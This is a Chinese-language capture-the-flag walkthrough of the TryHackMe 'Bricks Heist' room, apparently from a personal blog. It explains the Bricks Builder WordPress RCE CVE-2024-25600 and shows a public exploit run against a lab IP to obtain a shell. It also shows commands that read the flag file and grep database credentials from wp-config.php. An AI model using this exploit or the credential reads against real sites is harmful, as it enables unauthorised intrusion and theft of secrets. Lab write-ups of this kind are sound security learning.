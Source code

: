 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: TryHack3M_Bricks Heist
category:
  - 项目
---
```

## 前言
本题运用了wordpress漏洞[**_CVE-2024-25600_**](https://medium.com/@chinamayjoshi/unauthenticated-remote-code-execution-rce-vulnerability-in-bricks-builder-for-wordpress-a12132c91cc1)
我们可以提前配置wordscan，WPScan 是一款针对 WordPress 的安全扫描工具，用于检测插件、主题漏洞、用户枚举及配置问题。

### 漏洞原理
Bricks <= 1.9.6版本，漏洞为远程代码执行 （RCE），
漏洞存在于Bricks\Query类中，Bricks\Query 类用于管理 WordPress 帖子查询的渲染。
在`Bricks\Query` 类包含的方法`prepare_query_vars_from_settings`中第十行存在eval函数，会处理`$php_query_raw`参数
```php
$user_result = eval( $php_query_raw ); // Execute the user code
```
接下来需要我们找到一种方法来传入`$php_query_raw`参数
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250503124903.png)
发现在多处都实例化了`Bricks\Query`类

在`Bricks\Ajax::render_element($element)`处的实例化尤为显眼
Bricks 使用这个方法来显示编辑器内块/元素的预览。

实例代码：
```php
if ( ! empty( $loop_element ) ) 
	{ $query = new Query( $loop_element ); // CUT FOR BREVITY 
	}
```
该方法可通过`admin-ajax.php` 端点和 `WordPress Rest API` 调用。

以上方方法调用的权限检测如下
```php
if ( bricks_is_ajax_call() && isset( $_POST ) ) {
    self::verify_request();
}

elseif ( bricks_is_rest_call() ) {
    // REST API (Permissions checked in the API->render_element_permissions_check())
}
```
`bricks_is_ajax_call()`分支中会调用`Ajax::verify_request()`，检查当前用户是否有权访问 Bricks 构建器
但是，如果此方法是通过 REST API 调用的，则不会调用`Ajax::verify_request()`。
因为REST API会进行回调检查，
关于`render_element`调用的路由表(注册路径)
```php
// Server-side render (SSR) for builder elements via window.fetch API requests
		register_rest_route(
			self::API_NAMESPACE,
			'render_element',
			[
				'methods'             => 'POST',
				'callback'            => [ $this, 'render_element' ],
				'permission_callback' => [ $this, 'render_element_permissions_check' ],
			]
		); 

```

但在`render_element_permission_check`方法中没有执行任何权限检查，代码略
该方法仅检查请求是否包含有效的`nonce`，`nonce`只能防止重放攻击，并不能进行权限检查


## 解题过程
先用wpscan 扫描一下目标服务器，
```bash
wpscan --url https://bricks.thm/
```
发现存在bricks 且版本为1.9.5，刚好对应了此前的漏洞
于是搜索漏洞会发现许多github项目的exploit，例如
[Chocapikk/CVE-2024-25600：未经身份验证的远程代码执行 – Bricks <= 1.9.6](https://github.com/Chocapikk/CVE-2024-25600)

现在，运行漏洞利用

```shell
C:\Users\l1709\Desktop\work\CVE-2024-25600-main>python exploit.py -u https://10.10.73.131
[*] Nonce found: 4982bac29f
[+] https://10.10.73.131 is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
```

```bash
# ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

获得隐藏的txt文件
```bash
# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

```bash
# cat wp-config.php | grep DB_
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'root' );
define( 'DB_PASSWORD', 'lamp.sh' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
```

